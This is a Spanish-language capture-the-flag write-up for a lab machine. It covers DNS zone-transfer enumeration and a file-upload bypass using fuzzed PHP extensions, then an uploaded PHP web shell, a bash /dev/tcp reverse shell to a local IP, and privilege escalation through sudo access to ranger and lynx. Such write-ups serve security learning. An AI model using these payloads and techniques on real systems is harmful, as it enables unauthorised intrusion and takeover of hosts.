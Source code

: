 ```yaml
---
tags:
  - CTF
  - CyberSec
---
```

# Reconocimiento y enumeración
Con `arp-scan` podemos ver que el IP objetivo es `192.168.0.110`. Si hacemos el escaneo con nmap obtenemos.
![](_anexos_/Screenshot%20from%202023-12-26%2020-21-31.png)
- Si ingresamos a la pagina web en puerto 80, nos sale la pagina por defecto de apache.
- `whatweb` no detecta nada que pueda resultar interesante.

Si hacemos fuzzing a la maquina, `dirb` encuentra una ruta interesante.`Gobuster` parece no detectar nada.

![](_anexos_/Screenshot%20from%202023-12-26%2020-25-48.png)
En `robots.txt` encontramos este dominio el cual asociamos a la IP en `/etc/hosts`.

![](_anexos_/Screenshot%20from%202023-12-26%2020-41-42.png)

Como tenemos el puerto 53 del servicio `DNS` abierto. Podemos tratar de hacer una enumeración con el dominio que encontramos en `robots.txt` haciendo uso de `dig`.

``` bash
dig axfr @192.168.0.110 securezone.nyx
```

![](_anexos_/Screenshot%20from%202023-12-26%2020-31-50.png)

Vinculamos todos los dominios a la IP `192.168.0.110`. Si ingresamos a `upl0ads.securezone.nyx` nos encontramos con esto. 

![](_anexos_/Screenshot%20from%202023-12-26%2022-30-07.png)

# Burpsuite y file upload

Ingresamos un archivo `hola.txt` de prueba mientras interceptamos la petición con Burpsuite a través del proxy ya configurado.

![](_anexos_/Screenshot%20from%202023-12-26%2022-33-17.png)

Si pasamos al `repeater` y enviamos la petición, podemos ver que nuestro archivo es denegado. Al parecer existe una serie de archivos permitidos para la carga.
Entonces, procedemos a enviar la petición al `intruder` y lanzar un ataque de tipo `sniper` para probar diferentes extensiones `.php`, lista la cual se toma de [este](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) repositorio. 

![](_anexos_/Screenshot%20from%202023-12-26%2022-37-21.png)

> Importante: desactivar el URL-encode al momento del ataque para que no cambie los caracteres especiales de las extensiones como `dot`.

![](_anexos_/Screenshot%20from%202023-12-26%2022-38-09.png)
![](_anexos_/Screenshot%20from%202023-12-26%2022-38-09.png)

Por ultimo agregamos el codigo php malicioso que nos debería permitir hacer una reverse shell.

``` bash
<?php system($_REQUEST["cmd"]); ?>
```

![](_anexos_/Screenshot%20from%202023-12-26%2022-43-22.png)

Luego de ejecutar el ataque `sniper`, en los resultados podemos ver tres tipos de tamaños diferentes en el request.
- 810: descartados, todas estas son denegadas
- 809: en duda, no probados
- 795: solo un archivo tiene este `length`.
Podemos ver que ese archivo de tamaño 795 es una que tiene la extensión `.phar`.

![](_anexos_/Screenshot%20from%202023-12-27%2000-04-53.png)

Si hacemos fuzzing al dominio `upl0ads.securezone.nyx` encontramos una `/uploads` ruta.
Entonces, ingresamos pero nos tira un `403 forbidden`, lo que si podemos ingresar con la ruta del archivo, en este caso `hola`, si recordamos el `hola.txt` que subimos antes. 

``` bash
http://upl0ads.securezone.nyx/uploads/hola.phar

## Haciendo uso de cmd
http://upl0ads.securezone.nyx/uploas/hola.phar?cmd=id
```

![](_anexos_/Screenshot%20from%202023-12-27%2000-20-16.png)

Procedemos a generar la reverse shell:
``` bash
bash -c "bash -i >& /dev/tcp/192.168.0.107/4444 0>&1"
```

![](_anexos_/Screenshot%20from%202023-12-27%2000-25-03.png)

# Privesc
Si ejecutamos `sudo -l`. Podemos ver que nos permite ejecutar `ranger` como el usuario `hans`. Aprovechamos esto para poder capturar el `id_rsa` y conectarnos a través de ssh. En este caso no es necesario usar herramientas como `john` para crackear la contraseña porque en realidad no esta configurada ninguna. 

![](_anexos_/Screenshot%20from%202023-12-27%2000-49-38.png)

Al ejecutar nuevamente `sudo -l` (esta vez como el usuario `hans`). Podemos ver que podemos ejecutar como root, el navegador por terminal `lynx`. Si entramos al navegador y miramos entre las opciones podemos encontrar.

![](_anexos_/Screenshot%20from%202023-12-27%2000-59-05.png)

Presionamos `!` y ya estamos dentro como el usuario root.

![](_anexos_/Screenshot%20from%202023-12-27%2001-00-08.png)